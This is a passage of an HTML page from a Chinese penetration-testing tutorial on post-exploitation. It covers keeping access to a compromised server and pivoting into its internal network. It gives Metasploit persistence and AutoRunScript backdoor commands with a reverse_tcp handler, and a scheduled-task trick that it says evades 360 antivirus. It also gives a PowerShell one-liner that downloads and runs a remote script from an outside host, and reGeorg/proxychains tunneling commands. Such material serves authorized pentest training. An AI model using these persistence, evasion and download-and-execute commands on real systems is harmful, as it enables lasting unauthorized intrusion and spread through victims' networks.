 <p nodeIndex="113"><span nodeIndex="356">相关工具：<a href="https://www.securitysift.com/download/linuxprivchecker.py" nodeIndex="357">https://www.securitysift.com/download/linuxprivchecker.py</a> 详细地列出网卡信息，主机信息，passwd文件，开启服务等等信息。</span></p>
<p nodeIndex="114"><span nodeIndex="358">提权的方法复杂而多样，主要的手段还是第一种的使用exp提权。在尝试所有的提权方法之后依然不能成功，那么可以使用这台主机作为跳板进行内网的进一步渗透。</span></p>


<hr nodeIndex="364"><p nodeIndex="117"><span nodeIndex="365">拿下一个shell容易，但是对方服务器重启，web漏洞被补上，木马被删除，还能有办法保留住shell么？这里提供了几种持续后门的方法。</span></p>
<p nodeIndex="118"><span nodeIndex="366"><strong nodeIndex="367"><span nodeIndex="368">Msf的持续后门</span></strong></span></p>
<p nodeIndex="119"><span nodeIndex="369">Persistence: run persistence -h：用于创建启动项启动，会创建注册表，创建文件。（X86_Linux不支持此脚本）</span></p>
<p nodeIndex="120"><span nodeIndex="370">Run metsvc -h ：用于创建服务，会创建meterpreter服务，并上传三个文件，容易被杀（我的msf版本不支持）使用-r参数可以卸载服务</span></p>
<p nodeIndex="121"><span nodeIndex="371">Mof_ps_persist</span></p>
<p nodeIndex="122"><span nodeIndex="372"><strong nodeIndex="373"><span nodeIndex="374">Msf自动运行脚本</span></strong></span></p>
<p nodeIndex="123"><span nodeIndex="375">Autorunscript，一个十分强大的脚本，可以在生成会话的同事，执行指定的操作。可以通过autorunscript调用的脚本有6个，目录metasploit/scripts/meterpreter，有屏幕截图，获取环境变量等等。</span></p>
<p nodeIndex="124"><span nodeIndex="376"><strong nodeIndex="377"><span nodeIndex="378">使用persistence和autorunscript留后门的方法是：</span></strong></span></p>

<pre class="brush:plain;toolbar:false" nodeIndex="126">
Use explit/multi/handler
Set payload windows/meterpreter/reverse_tcp
Set lhost ***
Set lport ***
Set ExitOnSession false
Set AutoRunScript persistence -r *** -p 7231 -U -X -I 30
Exploit -j -z
</pre>
<p nodeIndex="127"><span nodeIndex="379"><strong nodeIndex="380"><span nodeIndex="381">绕过拦截的计划任务：</span></strong></span></p>
<p nodeIndex="128"><span nodeIndex="382">构造创建计划任务：schtasks /create /tn mytask /tr notepad.exe /sc hourly /mo 1 #每小时执行一次</span></p>
<div id="RIL_IMG_11" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/11"/></div>
<p nodeIndex="130"><span nodeIndex="384">powershell -nop -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://a.com/1.ps1');" 保存以上命令到1.ps一，通过IEX下载执行。</span></p>
<div id="RIL_IMG_12" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/12"/></div>
<div id="RIL_IMG_13" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/13"/></div>
<p nodeIndex="133"><span nodeIndex="387">本机测试时360第二种报毒，第一种通过。</span></p>

<p nodeIndex="135"><span nodeIndex="390"><strong nodeIndex="391"><span nodeIndex="392">网络分析</span></strong></span></p>
<hr nodeIndex="393"><p nodeIndex="136"><span nodeIndex="394"><strong nodeIndex="395"><span nodeIndex="396">查看本机网络信息</span></strong></span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="137">
ipconfig
</pre>
<p nodeIndex="138"><span nodeIndex="397"><strong nodeIndex="398"><span nodeIndex="399">使用代理探测内网</span></strong></span></p>
<p nodeIndex="139"><span nodeIndex="400">正向代理：Regeorg + proxychains （win下用proxycap）</span></p>
<p nodeIndex="140"><span nodeIndex="401">Regeorg: <a href="https://github.com/sensepost/reGeorg" nodeIndex="402">https://github.com/sensepost/reGeorg</a></span></p>
<div id="RIL_IMG_14" class="RIL_IMG"><img src="/media/posts_images/2017-04-03-1681852376/14"/></div>
<p nodeIndex="142"><span nodeIndex="404">上传服务器可执行的tunnel文件，在本机执行：</span></p>
<pre class="brush:plain;toolbar:false" nodeIndex="143">
python reGeorgSocksProxy.py -p 2333 -u http://aaaaaa.com/tunnel.php
</pre>
<p nodeIndex="144"><span nodeIndex="405">Proxychains: <a href="https://github.com/rofl0r/proxychains-ng" nodeIndex="406">https://github.com/rofl0r/proxychains-ng</a></span></p>